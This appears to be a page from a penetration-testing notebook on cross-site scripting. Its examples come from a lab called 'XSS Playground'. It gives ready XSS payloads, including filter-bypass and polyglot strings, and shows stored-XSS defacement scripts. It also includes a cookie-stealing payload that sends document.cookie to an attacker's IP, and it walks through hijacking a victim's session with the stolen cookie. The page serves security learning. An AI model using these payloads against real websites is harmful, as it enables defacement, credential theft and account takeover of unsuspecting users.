 # XSS

### Payloads

```javascript
# Standard XSS Payload
<script>alert('XSS');</script>

# Input tag escape
"><script>alert('XSS');</script>

# Escape textarea tag
</textarea><script>alert('XSS');</script>

# Escape Javascript code
';alert('XSS');//

# Bypass filters that strip out malicious words such like "script"
<sscriptcript>alert('XSS');</sscriptcript>

# Polygot payload (Can bypass multiple filters)
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS)//>\x3e
```

### Payload List

{% embed url="https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt" %}

## Stored XSS

### Defacing HTML Titles

Stored XSS can allow opportunity to deface web applications through various methods. One such method may allow for HTML titles and elements to be changed. In the example below we will be altering the HTML title "XSS playground".

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Firstly, we need to identify the Element ID for the title. Using the browser's inspector we can identify the Element ID where we can see the string:

```
<span id="thm-title">XSS Playground"</span>
```

&#x20;As shown in the browser inspector:

<figure><img src="../../.gitbook/assets/image (7) (6).png" alt=""><figcaption></figcaption></figure>



The following payload can be used to alter the title. This payload can be inserted into the comment section on the web application.&#x20;

```
<script>document.getElementById('thm-title').innerHTML="Defaced";</script>
```

After the payload has been inserted we can see where the HTML title has now been changed.

<figure><img src="../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

### Payloads for changing Element ID

```
<script>document.getElementById('ID').innerHTML="Defaced";</script>
<script>document.querySelector('#ID').textContent = 'Defaced'</script>
```

### Cookie Stealing

Cookie stealing can be performed via Reflected and Stored XSS. With Stored XSS anyone who visits the affected web page can have their cookie sent to an adversary. This cookie can then be used to potentially log into the application as the victims user account.

The script linked below is used to set up a HTTP server on the attackers machine which will catch cookies from an unsuspecting users browser session when they active the stored XSS.

Script: [https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py](https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py)\


After the script has been downloaded alter the variables shown below to point back to the attacking system and then run the script with Python.

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

After the script is setup and running the attacker injects the Stored XSS payload as shown below onto the vulnerable web page.

```
<script>var i=new Image;i.src="http://<IP>/?"+document.cookie;</script>
```

When the victim nexts visits the affected web page their cookie will be sent to the attacker.

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Where the script receives the cookie:

<figure><img src="../../.gitbook/assets/image (3) (5).png" alt=""><figcaption></figcaption></figure>

The cookie is then placed into the attackers browser session.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

After a page refresh by the adversary we see they are now logged in as the victim' s user account.

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

## Reflected XSS

Reflected XSS "reflects" the injected script back to the victims browser through various methods such as search functions, forms and as part of script contained within a URL.

Simple payload for proof of concept:

```
<script>alert('Hello')</script>
```

The page shown below reflects the search query into the URL of the web application. Using the payload shown above we can see how this is reflected back on the web page.

<figure><img src="../../.gitbook/assets/image (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

From above we can also see how this affects the URL for the web page.

```
http://<IP>/reflected?keyword=%3Cscript%3Ealert%28%27Hello%27%29%3C%2Fscript%3E
```

### Grabbing machine IP

```
<script>alert(window.location.hostname)</script>
```

<figure><img src="../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>



## Further Reading

GitHub: [https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)
